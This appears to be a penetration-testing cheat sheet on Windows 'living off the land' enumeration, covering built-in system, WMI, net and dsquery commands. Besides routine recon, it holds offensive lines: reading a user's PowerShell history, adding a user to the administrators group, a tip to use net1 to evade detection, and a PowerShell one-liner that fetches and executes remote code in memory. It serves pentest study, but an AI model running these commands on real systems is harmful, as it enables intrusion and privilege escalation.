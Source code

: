 # Living of the Land

In case you are on host where you cannot load tools, and don't have internet
access on it. You need to use built-in tools for enumeration. 

## Host & Network Recon

 ```shell
 # We can get basic info about the system using this command
 Systeminfo
 
 # Get user's information and privileges
 whoami /all

 # Get the specified user's PowerShell history
 Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

 # Prints the PC's Name
 hostname
 # Prints out the OS version and revision level
 [System.Environment]::OSVersion.Version
 # Displays a list of environment variables for the current session (ran from CMD-prompt)
 set
 Get-ChildItem Env: | ft Key,Value
 # Displays the domain name to which the host belongs (ran from CMD-prompt)
 echo %USERDOMAIN%
 # Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)
 echo %logonserver%
 # Prints out network adapter state and configurations
 ipconfig /all
 # List of all known hosts stored in arp table
 arp -a
 # Displays routing table (IPv4 & IPv6)
 route print
 ```

## Recon using WMI

Windows Management Instrumentation (WMI) is a scripting engine that is widely used within Windows 
enterprise environments to retrieve information and run administrative tasks on local and remote hosts.

 ```shell
 # Prints the patch level and description of the Hotfixes applied
 wmic qfe get Caption,Description,HotFixID,InstalledOn
 # Displays basic host information including attributes such as Name, Domain, Manufacturer, Model, Username, and Roles
 wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
 # A listing of all processes on the host
 wmic process list /format:list
 # Displays information about the Domain and Domain Controllers
 wmic ntdomain list /format:list
 # Displays information about all local accounts and any domain accounts that have logged into the device
 wmic useraccount list /format:list
 # Information about all local groups
 wmic group list /format:list
 # Dumps information about any system accounts that are being used as service accounts
 wmic sysaccount list /format:list
 ```

## Net Commands for Domain Enumeration

 ```shell
 # Information about password requirements
 net accounts
 # Password and lockout policy
 net accounts /domain
 # Information about domain groups
 net group /domain
 # List users with domain admin privileges
 net group "Domain Admins" /domain
 # List of PCs connected to the domain
 net group "domain computers" /domain
 # List PC accounts of domain controllers
 net group "Domain Controllers" /domain
 # User that belongs to the specified domain group
 net group <domain_group_name> /domain
 # List of domain groups
 net groups /domain
 # All available local groups
 net localgroup
 # List users that belong to the administrators group inside the domain
 # (the group Domain Admins is included here by default)
 net localgroup administrators /domain
 # Information about a group (administrators)
 net localgroup Administrators
 # Add a user to the administrators group
 net localgroup administrators [username] /add
 # Check current network shares
 net share
 # Get information about a user within the domain
 net user <ACCOUNT_NAME> /domain
 # List all users of the domain
 net user /domain
 # Information about the current user
 net user %username%
 # Mount the share locally
 net use x: \computer\share
 # Get a list of computers
 net view
 # List shares on the domains
 net view /all /domain[:domainname]
 # List shares of a specific computer
 net view \computer /ALL
 # List of PCs in the domain
 net view /domain
 ```
 Use `net1` to avoid detection.


## Dsquery
- Dsquery is a helpful command-line tool that can be utilized to find Active Directory objects.
- It exists on modern Windows systems at `C:\Windows\System32\dsquery.dll`
- But we need shell from `SYSTEM` context.

 ```shell
 # Get users
 dsquery user
 # Get computers
 dsquery computer

 # Wildcard queries

 # Note: CN=Users refers to the Users container, which is a default container 
 # object where user accounts, security groups, and other objects are
 # stored by default when they are created, unless a different container
 # or Organizational Unit (OU) is specified.
 dsquery * "CN=Users,DC=$DOMAIN,DC=LOCAL"
 # Users With Specific Attributes Set (PASSWD_NOTREQD)
 dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
 # Searching for Domain Controllers
 dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName 
 ```

### Some Useful Commands

 ```shell
 # Download a file from the web using PowerShell and call it from memory.
 powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <follow-on commands>"
 ```

### LDAP Filtering Explanation
https://academy.hackthebox.com/module/143/section/1360
